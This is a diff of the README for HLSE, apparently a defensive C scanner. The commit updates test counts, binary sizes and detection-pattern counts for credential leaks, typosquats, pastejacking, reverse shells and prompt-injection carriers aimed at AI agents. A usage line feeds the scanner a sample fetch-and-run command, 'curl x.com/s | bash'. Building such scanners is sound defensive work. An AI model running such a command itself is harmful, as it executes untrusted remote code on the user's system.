

Before and after one commit to shizukutanaka/HLSE, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -24,13 +24,13 @@ Evasion resistance:
   DGA / random domains:         BLOCKED  (x7k2p9qzr4mw.com → detected)
 
 Reliability:
-  Structured tests:             1173 passing, 0 failing (9 unit suites +
+  Structured tests:             1187 passing, 0 failing (9 unit suites +
                                  corpus + CLI integration — see: make test)
   Fuzz iterations:              600,000 (6 harnesses × 100K, 0 crashes)
   ASan + UBSan:                 0 errors
   Compiler warnings:            0 (-Wall -Wextra -Wpedantic -Wshadow -Wconversion)
 
-Binary size:   ~140 KB (dynamic, stripped), ~1.0 MB (static-pie, stripped)
+Binary size:   ~464 KB (dynamic, stripped), ~1.5 MB (static-pie, stripped)
 Dependencies:  libc + libm only
 Platform:      Linux, macOS (partial)
 ```
@@ -44,9 +44,9 @@ Platform:      Linux, macOS (partial)
 | **Prompt injection** | hlse_text.c | Invisible instruction carriers aimed at AI agents — Unicode Tags block (U+E0000–U+E007F) payloads outside legitimate emoji tag sequences, and long zero-width runs used as a hidden data channel. Applied by both `text` and `scan <dir>`, so poisoned documents, agent skill files and MCP/tool descriptions in a repo are covered. Structural detection only: an injection written in ordinary visible prose is out of scope |
 | **Ransomware** | hlse_protect.c | Entropy spike, ransom notes, extension mutation, shadow deletion |
 | **MBR/GPT** | hlse_protect.c | Boot signature, bootkit strings, obfuscation detection |
-| **Credential leak** | hlse_secrets.c | 55 token patterns — AWS (incl. STS), GitHub, GitLab, Google + Google OAuth (GOCSPX-), npm, OpenAI/Anthropic, Groq/Perplexity/xAI, Stripe, Shopify, HuggingFace, PyPI, Postman, Square, Doppler, Grafana, Linear, New Relic, Databricks, PlanetScale, HashiCorp Vault (service/batch/recovery), Netlify, Render, Fly.io, CircleCI, Contentful, SendGrid, Vercel, Slack/Discord webhooks, SSH keys, .env passwords; plus 7 structural checks — GCP service-account JSON, Azure SAS, Azure storage AccountKey, AWS credentials-file secret, JWT bearer tokens (with algorithm named, and unsigned `alg:none` tokens flagged as forgeable), Telegram bot tokens, and DB/service connection-string embedded credentials (postgres/mysql/mongodb+srv/redis/amqp/…). Excludes doc/example/placeholder keys to cut false positives. Clipboard crypto-swap for 16 chains (BTC/ETH/XMR/SOL/USDT-TRC20/LTC/DOGE/XRP/DASH/XLM/ADA/BCH/ATOM/XTZ/DOT/ALGO) |
+| **Credential leak** | hlse_secrets.c | 61 token patterns — AWS (incl. STS), GitHub, GitLab, Google + Google OAuth (GOCSPX-), npm, OpenAI/Anthropic, Groq/Perplexity/xAI, Stripe, Shopify, HuggingFace, PyPI, Postman, Square, Doppler, Grafana, Linear, New Relic, Databricks, PlanetScale, HashiCorp Vault (service/batch/recovery), Netlify, Render, Fly.io, CircleCI, Contentful, SendGrid, Vercel, Slack/Discord webhooks, SSH keys, .env passwords; plus 7 structural checks — GCP service-account JSON, Azure SAS, Azure storage AccountKey, AWS credentials-file secret, JWT bearer tokens (with algorithm named, and unsigned `alg:none` tokens flagged as forgeable), Telegram bot tokens, and DB/service connection-string embedded credentials (postgres/mysql/mongodb+srv/redis/amqp/…). Excludes doc/example/placeholder keys to cut false positives. Clipboard crypto-swap for 16 chains (BTC/ETH/XMR/SOL/USDT-TRC20/LTC/DOGE/XRP/DASH/XLM/ADA/BCH/ATOM/XTZ/DOT/ALGO) |
 | **Email forensics** | hlse_secrets.c | SPF/DKIM fail, Reply-To mismatch, display-name spoofing |
-| **Supply chain** | hlse_supply.c | Package typosquat (pip/npm/cargo/go/gem — 280 packages), pastejacking (Unix curl\|sh + reverse shells + Windows ClickFix LOLBins + macOS osascript), network safety (N1 ARP poisoning, N2 default-route/routing injection, N3 DNS resolver, N4 hosts-file pharming — ~50 banking/exchange/wallet domains) |
+| **Supply chain** | hlse_supply.c | Package typosquat (pip/npm/cargo/go/gem — 369 packages), pastejacking (Unix curl\|sh + reverse shells + Windows ClickFix LOLBins + macOS osascript), network safety (N1 ARP poisoning, N2 default-route/routing injection, N3 DNS resolver, N4 hosts-file pharming — ~50 banking/exchange/wallet domains) |
 | **File masquerade** | hlse_file.c | Double extensions, magic byte mismatch (PE/ELF/Mach-O/PDF/ZIP/CAB/WASM/shebang-script/HTML-smuggling), suspicious filenames, BIDI/RLO override, update-dropper lures |
 | **System audit** | hlse_audit.c | SSH hardening, file permissions, DNS, cron persistence (user crontabs + /etc/cron.{d,hourly,daily,weekly,monthly} + /etc/crontab), insecure $PATH, shell-rc backdoors (function/alias hijack) + system-wide /etc/profile.d, sudoers NOPASSWD |
 
@@ -58,7 +58,7 @@ make test                               # run all test suites
 ./hlse_core                             # interactive demo
 ./hlse_core "https://g00gle.com"        # scan a URL
 ./hlse_core text "URGENT: wire $5000"   # scan text
-./hlse_core package reqeusts pip        # check for typosquat (280 packages)
+./hlse_core package reqeusts pip        # check for typosquat (369 packages)
 ./hlse_core paste "curl x.com/s | bash" # pastejacking check
 ./hlse_core scan /path/to/project        # recursive secret + file scan (CI/CD)
 ./hlse_core protect /home/user/docs     # ransomware scan
````
Also changed, not shown: other parts of README.md (+2 -2 lines), docs/SPECIFICATION.md (+2 -2 lines).
